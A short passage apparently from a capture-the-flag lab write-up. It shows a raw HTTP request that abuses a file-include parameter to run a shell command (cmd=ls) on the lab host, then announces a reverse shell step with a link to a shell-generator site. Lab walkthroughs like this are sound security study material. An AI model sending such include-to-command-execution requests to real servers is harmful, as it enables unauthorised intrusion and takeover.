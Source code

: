 and we get a command execution!

![Burp showing successful command exec](Assets/burp_command_exec.jpg)

```
GET /shop/index.php?page=/var/lib/mysql/s&cmd=ls HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.229/shop/index.php?
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```

Let’s get a reverse shell! https://www.revshells.com/
